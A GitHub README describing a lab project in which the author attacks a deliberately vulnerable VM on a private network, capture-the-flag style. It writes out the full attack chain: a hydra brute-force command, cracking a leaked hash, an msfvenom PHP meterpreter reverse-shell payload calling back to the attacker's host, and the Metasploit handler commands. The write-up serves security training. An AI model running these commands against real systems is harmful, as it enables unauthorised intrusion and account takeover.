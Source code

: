 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

   Red Team
- Ifconfig to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

      - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
      - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself. ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 
After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
After using the command we successfully brute force the account and was able to retrieve the login information for ashton 


Logging in the account then brings us to a personal note Ashton then made for himself containing other important information 
A note that hes going to be using Ryans account 
after researching more on the web server we found that Ryan is the CEO of the company.
Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen
Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
Cracking the hash we find the password is linux4u
Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php
Once the reverse shell script is created we can now upload it to the shared directory to run it. 
Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
The commands would be used in this order to begin the listening 
Msfconsole -q
Use exploit/multi/handler
Set payload php/meterpreter/reverse_tcp
(same payload script as the one we copied to the shared directory)
Set LHOST 192.168.1.90
Ip of machine we want to listen on 
Set LPORT 4444
Port we want to listen on
Show options 
To see if all the settings we had set are correct
Run
To execute the listening process


Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

